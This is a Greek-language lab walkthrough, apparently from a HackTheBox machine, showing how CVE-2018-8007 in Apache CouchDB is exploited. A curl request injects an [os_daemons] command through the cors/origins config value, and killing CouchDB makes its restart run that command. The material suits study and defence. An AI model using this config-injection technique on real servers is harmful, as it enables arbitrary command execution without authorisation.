 ### **Εκμετάλλευση του CVE-2018-8007 μέσω Τροποποίησης του local.ini**

Παράδειγμα [από εδώ](https://0xdf.gitlab.io/2018/09/15/htb-canape.html).

Μια πρόσφατα αποκαλυφθείσα ευπάθεια, CVE-2018-8007, που επηρεάζει το Apache CouchDB, εξετάστηκε, αποκαλύπτοντας ότι η εκμετάλλευση απαιτεί δικαιώματα εγγραφής στο αρχείο `local.ini`. Αν και δεν είναι άμεσα εφαρμόσιμη στο αρχικό σύστημα στόχο λόγω περιορισμών ασφαλείας, έγιναν τροποποιήσεις για να παραχωρηθούν δικαιώματα εγγραφής στο αρχείο `local.ini` για σκοπούς εξερεύνησης. Λεπτομερή βήματα και παραδείγματα κώδικα παρέχονται παρακάτω, δείχνοντας τη διαδικασία.

Αρχικά, το περιβάλλον προετοιμάζεται διασφαλίζοντας ότι το αρχείο `local.ini` είναι εγγράψιμο, επαληθεύεται με την καταγραφή των δικαιωμάτων:
```bash
root@canape:/home/homer/etc# ls -l
-r--r--r-- 1 homer homer 18477 Jan 20  2018 default.ini
-rw-rw-rw- 1 homer homer  4841 Sep 14 17:39 local.ini
-r--r--r-- 1 root  root   4841 Sep 14 14:30 local.ini.bk
-r--r--r-- 1 homer homer  1345 Jan 14  2018 vm.args
```
Για να εκμεταλλευτεί την ευπάθεια, εκτελείται μια εντολή curl, στοχεύοντας τη ρύθμιση `cors/origins` στο `local.ini`. Αυτό εισάγει μια νέα προέλευση μαζί με επιπλέον εντολές στην ενότητα `[os_daemons]`, με στόχο την εκτέλεση αυθαίρετου κώδικα:
```bash
www-data@canape:/dev/shm$ curl -X PUT 'http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/cors/origins' -H "Accept: application/json" -H "Content-Type: application/json" -d "0xdf\n\n[os_daemons]\ntestdaemon = /usr/bin/touch /tmp/0xdf"
```
Η επαλήθευση που ακολουθεί δείχνει την εισαγόμενη διαμόρφωση στο `local.ini`, συγκρίνοντάς την με ένα αντίγραφο ασφαλείας για να αναδείξει τις αλλαγές:
```bash
root@canape:/home/homer/etc# diff local.ini local.ini.bk
119,124d118
< [cors]
< origins = 0xdf
< [os_daemons]
< test_daemon = /usr/bin/touch /tmp/0xdf
```
Αρχικά, το αναμενόμενο αρχείο (`/tmp/0xdf`) δεν υπάρχει, υποδεικνύοντας ότι η εντολή που έχει εισαχθεί δεν έχει εκτελεστεί ακόμη. Περεταίρω έρευνα αποκαλύπτει ότι διαδικασίες σχετικές με το CouchDB εκτελούνται, συμπεριλαμβανομένης μιας που θα μπορούσε δυνητικά να εκτελέσει την εισαχθείσα εντολή:
```bash
root@canape:/home/homer/bin# ps aux | grep couch
```
Με την τερματισμένη διαδικασία CouchDB που έχει εντοπιστεί και επιτρέποντας στο σύστημα να την επανεκκινήσει αυτόματα, ενεργοποιείται η εκτέλεση της εισαγόμενης εντολής, επιβεβαιωμένη από την ύπαρξη του προηγουμένως απολεσθέντος αρχείου:
```bash
root@canape:/home/homer/etc# kill 711
root@canape:/home/homer/etc# ls /tmp/0xdf
/tmp/0xdf
```
Αυτή η εξερεύνηση επιβεβαιώνει τη βιωσιμότητα της εκμετάλλευσης του CVE-2018-8007 υπό συγκεκριμένες συνθήκες, ιδίως την απαίτηση για εγ writable πρόσβαση στο αρχείο `local.ini`. Τα παραδείγματα κώδικα και τα διαδικαστικά βήματα που παρέχονται προσφέρουν έναν σαφή οδηγό για την αναπαραγωγή της εκμετάλλευσης σε ένα ελεγχόμενο περιβάλλον.
